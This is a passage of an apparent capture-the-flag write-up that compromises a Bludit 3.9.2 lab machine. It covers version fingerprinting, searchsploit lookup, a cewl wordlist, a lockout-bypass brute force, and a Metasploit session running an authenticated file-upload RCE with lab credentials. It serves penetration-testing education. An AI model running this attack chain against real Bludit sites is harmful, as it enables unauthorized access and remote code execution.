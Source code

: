 If we look at the source code for the page, we can see what version of this service is running.
```bash
<!-- Favicon -->
<link rel="shortcut icon" type="image/x-icon" href="/bl-kernel/img/favicon.png?version=3.9.2">
```

Instantly, from the top of the page, we see that this is likely version 3.9.2. Now, we can search to see if there are any exploits available for this version using `searchsploit`.
```bash
searchsploit bludit
```
---

Exploit Title | Path

---
Bludit - Directory Traversal Image File Upload (Metasploit) | php/remote/47699.rb bludit Pages Editor 3.0.0 - Arbitrary File Upload | php/webapps/46060.txt

---

Looking more closely at the source for the first exploit, we see that we can achieve remote code execution and it was tested on our exact version. Along with it being rated "excellent", this seems like the perfect candidate to get a shell on the machine. The only problem is that it is an authenticated exploit so we need some credentials. We will have to go back to enumeration for now.

With this, we've got a leaked username, `fergus`. We can try to brute force the password but after several seconds we would actually be locked out. After searching online, there is a [way around this](https://rastating.github.io/bludit-brute-force-mitigation-bypass/) via another CVE.

If we try to brute force our way in with a wordlist like `rockyou.txt`, for example, this would take way too long. We need to create our own custom and small wordlist for this job. For this, we can use `cewl` which will scrape all the words from a page and create a wordlist from it.

```
# cewl <http://blunder.htb> -w wordlist.txt
```

With this custom wordlist, we can now try to log in to the page in hopefully much quicker time.

[https://rastating.github.io/bludit-brute-force-mitigation-bypass/](https://rastating.github.io/bludit-brute-force-mitigation-bypass/)

```bash
python3 brute.py
```

Now that we have some valid credentials, we can use our authenticated exploit to get a shell on the machine. From there, we'll drop down to a simple shell and begin more enumeration to get to a user.

```
msf5 > use exploit/linux/http/bludit_upload_images_exec
msf5 exploit(linux/http/bludit_upload_images_exec) > set RHOSTS blunder.htb
RHOSTS => blunder.htb
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITUSER fergus
BLUDITUSER => fergus
msf5 exploit(linux/http/bludit_upload_images_exec) > set BLUDITPASS RolandDeschain
BLUDITPASS => RolandDeschain
msf5 exploit(linux/http/bludit_upload_images_exec) > run
```